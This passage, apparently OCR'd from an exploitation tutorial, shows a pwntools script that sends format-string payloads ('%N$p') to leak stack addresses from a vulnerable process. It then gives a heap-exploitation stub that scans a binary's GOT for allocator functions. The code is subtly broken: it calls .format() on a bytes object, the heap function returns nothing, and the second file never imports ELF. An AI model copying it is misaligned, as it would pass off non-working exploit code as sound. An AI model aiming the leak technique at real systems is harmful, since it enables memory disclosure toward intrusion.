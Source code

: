 Advanced technique for information leaks and arbitrary writes:

```python
# File: format_string_advanced.py
#!/usr/bin/env python3

"""
Format String Exploitation Example
"""

from pwn import *

def leak_stack(p, positions):
    """Leak stack values at specific positions"""
    payload = b'AAAA' + b'%{}$p,' * len(positions)
    payload = payload.format(*positions)
    
    p.sendline(payload)
    response = p.recvline()
    
    # Parse leaked addresses
    leaked = []
    for addr_str in response.split(b',')[:-1]:
        if addr_str.startswith(b'0x'):
            leaked.append(int(addr_str, 16))
    
    return leaked

# Example usage for leaking addresses
# p = process('./format_vuln')
# addresses = leak_stack(p, [6, 7, 8, 9, 10])
```

### Heap Exploitation

Advanced topic involving dynamic memory corruption:

```python
# File: heap_exploitation_basics.py
#!/usr/bin/env python3

"""
Basic Heap Exploitation Concepts

Common heap vulnerabilities:
1. Use After Free (UAF)
2. Double Free
3. Heap Overflow
4. Format String on Heap
"""

# Example of detecting heap vulnerabilities
def analyze_heap_functions(binary_path):
    """Analyze binary for heap-related functions"""
    dangerous_funcs = [
        'malloc', 'free', 'realloc', 'calloc',
        'new', 'delete'  # C++ operators
    ]
    
    elf = ELF(binary_path)
    found_funcs = []
    
    for func in dangerous_funcs:
        if func in elf.got:
            found_funcs.append(func)
```